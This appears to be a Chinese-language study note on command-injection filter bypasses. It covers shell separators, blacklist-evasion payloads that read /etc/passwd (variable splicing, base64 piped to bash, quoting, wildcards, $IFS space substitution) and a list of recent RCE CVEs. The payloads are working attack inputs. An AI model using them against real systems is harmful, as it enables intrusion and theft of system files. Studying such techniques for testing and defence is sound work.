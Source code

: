 ## 绕过技巧

### 管道符绕过

|       | &                                   | &&                                               | \|                                   | \|\|                                             | ;    | `                          |
| ----- | ----------------------------------- | ------------------------------------------------ | ------------------------------------ | ------------------------------------------------ | ---- | -------------------------- |
| Win   | 两边都执行                          | 可以理解为逻辑与,如果第一个命令错误,右边的不执行 | 管道符,右边命令正确,左边才可能会执行 | 可以理解为逻辑或,如果第一个命令正确,右边的不执行 | N/A  | N/A                        |
| Linux | Debian系:两边都执行<br />RH 系:待定 | 同Win                                            | Debian系:两边都执行<br />RH系:待定   | 同Win                                            | 同&  | 将返回的字符串当做命令执行 |



### 黑名单绕过:

### Windows下





### Linux下

1. 变量拼接绕过

   ```
   a=ca;b=t;$a$b /etc/passwd		#该命令就是cat /etc/passwd  用来绕过waf
   ```

2. base64编码绕过(Linux会将反引号内的内容当中命令执行)

   ```
   `echo "Y2F0IC9ldGMvcGFzc3dk"|base64 -d`
   或者
   echo "Y2F0IC9ldGMvcGFzc3dk"|base64 -d|bash
   ```

3. 单双引号绕过

   ```
   ca""t /etc/pass''wd		#
   ```

4. 反斜杠绕过

   ```
   ca\t /etc/passwd
   ```

5. 可变扩展绕过

   ```
   /???/c?t /???/p?ss??	#Linux自动去匹配/三个字符/c什么t的命令  /三个字符/p什么ss什么的文件
   ```

6. 通配符绕过

   ```
   
   ```

7. 长度限制绕过

   ```
   通过构造文件来绕过
   linux下可以用
   1>a创建名为a的空文件
   
   ls -t>test则会将目录按时间排序后写进test文件中
   sh命令可以从一个文件中读取命令来执行
   ```

8. 过滤空格绕过:

   ```
   cat</etc/passwd
   cat<>/etc/passwd
   
   {cat,/etc/passwd}
   
   cat$IFS/etc/passwd
   
   echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
   
   x=$'uname\x20-a'&&&$x
   
   windows平台
   ping%CommonProgramFiles:~10,-18%ip
   ping%PROGRAMFILES:~10,-5%IP
   ```

9. 引号逃逸

   ```
   当恶意命令被括在引号内时,可以使用\转义引号逃逸
   ```

绕过姿势文章:

>  https://blog.51cto.com/m0re/3879244#_106

## 你知道近两年出现哪些命令执行的漏洞吗

### log4j  了解清楚

CNNVD编号：CNNVD-202112-2743

CVE编号： CVE-2021-44832



### 向日葵RCE

[CNVD-2022-10270/CNVD-2022-03672 向日葵RCE复现](https://www.cnblogs.com/peace-and-romance/p/15905365.html)



### weblogic server RCE

CVE-2020-14882&14883



### Fastjson RCE 1.2.80

CVE-2022-25845



### SpringFramework RCE

CVE-2022-22965



## php命令执行相关函数:



![img](RCE.assets/20210911182758707.png)



## 命令执行的绕过方法

